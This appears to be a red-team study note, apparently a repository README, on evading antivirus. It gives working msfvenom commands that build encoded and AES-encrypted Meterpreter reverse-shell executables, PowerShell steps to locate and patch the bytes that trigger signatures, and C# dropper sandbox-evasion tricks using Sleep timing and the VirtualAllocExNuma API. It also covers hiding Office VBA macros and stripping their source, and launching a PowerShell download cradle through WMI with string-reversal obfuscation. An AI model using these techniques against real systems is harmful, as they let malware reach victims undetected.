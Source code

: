 ## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```

## Play with C#
Let's modify this [banana C# payload dropper](/02ClientSideWithWindowsScriptHost/Class1.cs) to make it stronger and better.
- 1. We can use [Caeasr Ciper code](/04FunWithAntivirus/Caesar.cs) to encrpt our payload, and add encypted payload to our beefy c# dropper, we add a decryption routine to get our old payload before load into memory. 
- 2.Let's mess with our code behavior a bit to bypass heuristic detection techniques. We can add a Sleep timer with Win32 Sleep API.If this section of code is being
simulated, the emulator will detect the Sleep call and fast-forward through the instruction. we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply reutrn the code.
- 3.using non-emulated APIs,  antivirus emulators are cheap too, they often only simulate the execution of common exe or functions. We could bypass this by using a WinAPI that is not emulated. For example, [Win32 VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) a uncommon API, with Numa suffix, a system design to optimize memory usage on multi-processor servers. We can test this by reverse engineering the antivirus emulator, or test out various APIs against AV engine. let's use VirtualAllocExNuma instead of VirtualAllocEx to allocated memory, and we can put a check block, return code if the memeory is not allocated.
- 4.After adding those 3 ttps, this is our [beefy C# dropper](/04FunWithAntivirus/beefyC#dropper.cs)
- 5.TODO, reseach more uncommon API, lookinto Win32 FlsAlloc.(page 185)

## Play with VBA for a beefy Marco
We could use the sane ttp as mentioned with c# methos. 1. use a ciper to encrypt payload, 2. add delay function, 3.using non-emulated API in VBA script. The microsofy office files with .doc and .xls extension use a [Compound File Binary File Format](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b), which combine multiple files into a single disk file.

We can use [FlexHex editor](http://www.flexhex.com/download/) to inspect the .doc file fomrat to understand it better.
- 1.open a marco word doc with  Flex, File > Open > OLE Compound File
- 2.expend Macro and VBA folders on the lower-left Navigation window, content related to VBA macros are located in the Macros
- 3.The **Project** file contains project information. We can edit the Project file to hide macro from within the graphical office VBA editor. Select **“Module=NewMacros”**, which is what the GUI editor uses to link the displayed macros, replace this value with null.highlighting the ASCII string and navigating to **Edit > Insert Zero Block**
- 4.VBA PerfomanceCache. VBA use **P-code**, a compiled version of the VBA textual code for the specific version of Microsoft Office and VBA it was created on. When a Microsoft Word document is opened on a different computer thatuses the same version and edition of Microsoft Word, the cached pre-compiled P-code is executed, avoiding the translation of the textual VBA code by the VBA interpreter. This means that in some scenarios, the VBA source code can be removed, as long as our document is opened on a computer that uses the same version of Microsoft Word installed in the default location, the VBA source code is ignored and the P-code is executed instead. We can remove the VBA source by y locating the VBA source code inside NewMacros. mark the bytes that start with  **“Attribute VB_Name”** and select all the remaining bytes, and insert zero block.

## VBA powershell process dechaining with WMI and beefy level 2 obfuscation
The old [VBA script](/01ClientSideWithOffice/powershellmemorydownloadCradle.vbs) use a PowerShell download cradle that fetched and executed the full shellcode. There are two issues with this, 1.use of the Shell method and the clearly identifiable PowerShell download cradle, 2. the powershell process becomes a child process of Microsoft Word, which is suspicious behavior.

What we can do it to use Windows Management Instrumentation (WMI) framework to create a powershell process instead of having it as a child process of Microsoft Word. We will create a 64 bit powershell process now we can pass in the full download cradle into the powershell process. This is what we call [WMI dechaining ttps code](/04FunWithAntivirus/WMIDechainingDownloadCradle.vbs). The code includes comments to explain more in details. 

so far, we only work on the decahining the powerhshell process from word doc. It is time to think about this beefy level 1 baby obfuscation. The current VBA marco is highly signatures since we use powershell commands. Let's use [StrReverse](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/strreverse-function) and [Code Beautify](https://codebeautify.org/reverse-string) to reverse [our code, completed reverse code](/04FunWithAntivirus/ReverseWMIDechaining.vbs). Maybe this will break the Signature detection? good luck out there.
